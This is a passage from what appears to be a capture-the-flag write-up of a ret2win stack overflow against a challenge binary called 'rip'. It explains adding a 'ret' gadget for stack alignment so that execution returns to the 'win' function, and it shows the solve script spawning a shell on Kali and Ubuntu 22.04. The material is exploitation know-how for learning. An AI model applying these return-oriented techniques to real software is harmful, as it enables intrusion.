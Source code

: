 ![](06.png)

The `ret` in `main+121` returns to our new `ret`-instruction at `0x40101a` which again returns to `win` at `0x4012f4`.

The good thing is that our payload still works on `Kali Linux`:

```bash
$ python solve.py
[+] Starting local process './rip': pid 802142
[*] Switching to interactive mode
nope.

$ lsb_release -a
No LSB modules are available.
Distributor ID:    Kali
Description:    Kali GNU/Linux Rolling
Release:    2022.2
Codename:    kali-rolling
$
```

Now let's try `Ubuntu 22.04` again:

```bash
$ python3 solve.py
[+] Starting local process './rip': pid 19509
[*] Switching to interactive mode
nope.
$ lsb_release -a
No LSB modules are available.
Distributor ID:    Ubuntu
Description:    Ubuntu 22.04.1 LTS
Release:    22.04
Codename:    jammy
$
```
